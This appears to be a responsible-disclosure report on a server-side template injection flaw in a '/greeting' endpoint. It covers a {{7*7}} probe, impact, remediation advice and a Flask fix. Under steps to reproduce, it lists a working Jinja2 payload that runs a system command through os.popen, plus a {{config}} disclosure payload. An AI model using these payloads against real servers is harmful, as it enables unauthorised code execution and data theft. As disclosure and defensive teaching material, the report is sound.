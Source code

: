 # 🐞 Server-Side Template Injection (SSTI) Vulnerability Report

---

## 📌 Title

**Server-Side Template Injection (SSTI) Vulnerability in Template Rendering Engine**

---

## 📝 Description

The application is vulnerable to **Server-Side Template Injection (SSTI)**. This vulnerability occurs when user input is directly embedded into a server-side template without proper sanitization or validation. If the template engine evaluates this input, an attacker can inject template expressions to execute arbitrary server-side code.

SSTI affects various templating engines such as:

- Jinja2 (Python)
- Twig (PHP)
- Velocity (Java)
- Smarty (PHP)
- Freemarker (Java)
- Go templates

This type of vulnerability can lead to **Remote Code Execution (RCE)**, sensitive data exposure, denial of service, or complete server compromise.

---

## 🕵️‍♂️ Vulnerable Parameter

- **Parameter**: `name`
- **HTTP Method**: `GET`
- **Endpoint**: `/greeting`

---

## 📂 Proof of Concept (PoC)

### 🔗 Malicious Request

```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

### 📥 Response Example

```html
Hello 49
```

This confirms the server is evaluating template expressions, indicating a Jinja2-like template engine is in use. This allows arbitrary expression execution.

---

## 🎯 Impact

- **Remote Code Execution (RCE)**: If the template engine allows method access, attackers can run system commands.
- **Sensitive Information Disclosure**: Access to environment variables, configs, etc.
- **Denial of Service**: Injecting recursive or infinite expressions.
- **Privilege Escalation**: If chained with other flaws.

---

## 🧪 Steps to Reproduce

1. Open a browser or proxy tool (like Burp Suite).
2. Send the following request:

```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

3. If the server responds with `Hello 49`, SSTI is confirmed.

4. Further payloads (for testing only in authorized environments):

```jinja2
{{config}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

---

## ⚙️ Affected Components

- Template rendering engine (e.g., Jinja2, Twig)
- Input not sanitized before being passed into template context
- Dynamic web pages that reflect input directly into server-rendered templates

---

## 🛡️ Recommended Remediation

- **Do not** pass user input directly to templates.
- **Use context separation**: avoid mixing logic and data.
- **Sanitize inputs**: whitelist input formats and patterns.
- Use template sandboxing or rendering context without dangerous global objects.
- **Upgrade** template engines to latest versions with security patches.
- Use strict template modes (e.g., `autoescape=True` in Jinja2).

---

## 🔧 Example Fix (Python + Jinja2)

```python
from flask import render_template, request

@app.route("/greeting")
def greeting():
    user_input = request.args.get("name")
    # Do NOT do this:
    # return render_template_string("Hello " + user_input)
    
    # Safe approach
    return render_template("greeting.html", name=user_input)
```

---

## 🔐 Security Best Practices

- Never evaluate templates with untrusted user data.
- Sanitize and validate all user inputs.
- Use separate template rendering contexts for user input.
- Disable template features that allow code execution (if possible).
- Perform code audits and fuzzing for template injection points.
- Implement Web Application Firewalls (WAF) to detect common payloads.

---

## 🧾 References

- [OWASP: Server-Side Template Injection](https://owasp.org/www-community/attacks/Server-Side_Template_Injection)
- [PortSwigger: SSTI](https://portswigger.net/web-security/server-side-template-injection)
- [HackTricks: SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Burp Suite, Manual Testing  
- **Severity**: **Critical**

---

> ✅ **Disclaimer:** This report is submitted for responsible disclosure.
